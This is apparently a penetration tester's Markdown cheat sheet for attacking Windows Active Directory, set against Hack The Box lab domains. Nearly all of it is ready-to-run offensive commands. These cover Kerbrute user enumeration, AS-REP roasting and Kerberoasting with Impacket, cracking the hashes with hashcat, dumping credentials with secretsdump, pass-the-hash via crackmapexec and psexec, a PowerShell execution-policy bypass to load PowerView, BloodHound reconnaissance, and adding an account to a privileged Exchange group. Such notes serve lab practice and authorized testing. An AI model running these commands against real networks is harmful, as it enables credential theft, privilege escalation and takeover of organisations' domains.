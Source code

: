 # Tools

## Kerbrute

Identify potential valid users

```bash
kerbrute userenum --dc <IP> -d <domain.local> users.txt
# Can verify working by placing known users in user.txt i.e. administrato, guest,

```

## Impacket

#### GetADUsers

```bash
GetADUsers.py -all -dc-ip <IP> active.htb/svc_tgs   # Will need account creds
```

#### GetNPUsers

Queries target domain for users with 'Do not require Kerberos preauthentication' set and export their TGTs for cracking

```bash
GetNPUsers.py <DOMAIN.LOCAL>/administrator  # use other known usernames too
# Look for user/hash output

GetNPUsers.py -dc-ip <IP> -request 'htb.local/'
# Look for user/hash output
GetNPUsers.py -dc-ip <IP> -request 'htb.local/' -format hashcat  # Put it in hashcat format in prep to crack
# Hashcat Crack
hashcat -m 18200 hash.txt rockyou.txt -r rules/InsidePro-PasswordsPro.rule
# If cracked...
crackmapexec smb <IP> -u <user> -p <password>  # Look for Pwn3d!
crackmapexec smb <IP> -u <user> -p <password> --shares  # Check for SMB shares to access
```

#### GetUserSPNs

```bash
GetUserSPNs.py -request -dc-ip <IP> active.htb/svc_tgs
# Check for kerberoasted output
# Crack found hashes then try to psexec
```

#### secretsdump

```bash
secretsdump.py htb.local/<username>@<IP>
secretsdump.py htb.local/<username>:<password>@<IP>
# Grab the hashes then attempt to crack or pass the hash
# Pass the hash
crackmapexec smb <IP> -u administrator -H <hash>
# If Pwn3d!...
psexec.py -hashes <hash> administrator@<IP>
```

## PowerView

Cheat Sheet - [https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)

### Setup

```powershell
# Navigate to the directory PowerView is in
powershell -ep bypass  # load a powershell shell with execution policy bypassed
. .\PowerView.ps1  # import the PowerView module
```

### Example

```powershell
Get-NetComputer -fulldata | select operatingsystem  # gets a list of all operating systems on the domain
Get-NetUser | select cn  # gets a list of all users on the domain
Get-NetGroup  # Get groups
Get-NetUser -SPN | ?{$_.memberof -match 'Domain Admins'}  # Get Kerberoastable user from a specified group
```

## evil-winrm

#### Upload File to Target

```bash
# From compromised target
Evil-WinRM PS C:\Users\FSmith\Documents> upload winPEAS.exe
Evil-WinRM PS C:\Users\FSmith\Documents> .\winPEAS.exe
```

#### Download From from Target

```bash
# From compromised target
Evil-WinRM PS C:\Users\FSmith\Documents> download 123_BloodHound.zip
```

## Bloodhound / Sharphound

### Sharphound

Copy sharphound.exe to the target and run to gather information.

```powershell
.\SharpHound.exe -c all
# Will output a zip file to copy back to Kali

# Running remotely in PowerShell
.\SharphHound.exe -c all -d active.htb --domaincontroller <IP>
```

### Bloodhound

Run Bloodhound (and neo4j) then import zip file created by Sharphound

```bash
# Run neo4j first
sudo neo4j console/start
# Run Bloodhound
bloodhound --no-sandbox

# After importing, search on what you have owned
# Ex: search on username, right click and mark as owned
# Then navigate to Queries and look at Shortest Paths
# Look at Service accounts/Account Operators which have special permissions create accounts and put htem in different groups
# Ex: Create new user and add them to a group that has higher permissions; can't be Administrator gourp
net user <username> <password> /add/ domain
net group "Exchange Windows Permissions"  # Check for group members
net group "Exchange Windows Permissions" /add <username>  # Add user to group in quotes
# Then back in Bloodhound, right click group added (graph line) and look at Abuse Info.
# Will most likely use PowerView for the Abuse
```

### neo4j

```bash
# neo4j new password/forgot password
locate no4j | grep auth
rm /usr/share/neo4j/data/dbms/auth
neo4j console
# Reset password
```

